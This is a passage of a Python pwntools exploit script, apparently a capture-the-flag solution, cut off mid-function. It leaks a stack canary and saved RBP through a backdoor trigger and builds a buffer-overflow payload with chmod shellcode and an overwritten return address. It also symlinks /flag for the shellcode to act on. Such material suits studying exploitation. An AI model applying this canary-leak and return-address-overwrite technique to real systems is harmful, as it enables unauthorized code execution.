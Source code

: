```python
def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def leak_data(target):
    try:
        target.sendlineafter(b"Payload size: ", trigger_length)
        send_payload(target, backdoor_trigger)
        response = target.recvuntil(backdoor)
        log.debug(response.decode("utf-8", errors="ignore"))

        canary = b"\x00" + target.recv(0x7)
        rbp = target.recv(0x6)
        log.success(f"Canary: {to_hex_bytes(canary)}\nRBP: {to_hex_bytes(rbp)}")

        return [canary, rbp]
    except Exception as e:
        log.exception(f"An error occurred while leaking canary: {e}")


def construct_payload(target):
    canary, rbp = leak_data(target)
    rbp = int.from_bytes(rbp, "little")

    ret_addr = rbp - fixed_offset

    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
    shellcode += b"".ljust(padding_to_v18_size - shellcode_length, b"A")
    shellcode += v18
    shellcode += padding_to_canary
    shellcode += canary
    shellcode += padding_to_ret
    shellcode += p64(ret_addr)

    return shellcode


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

```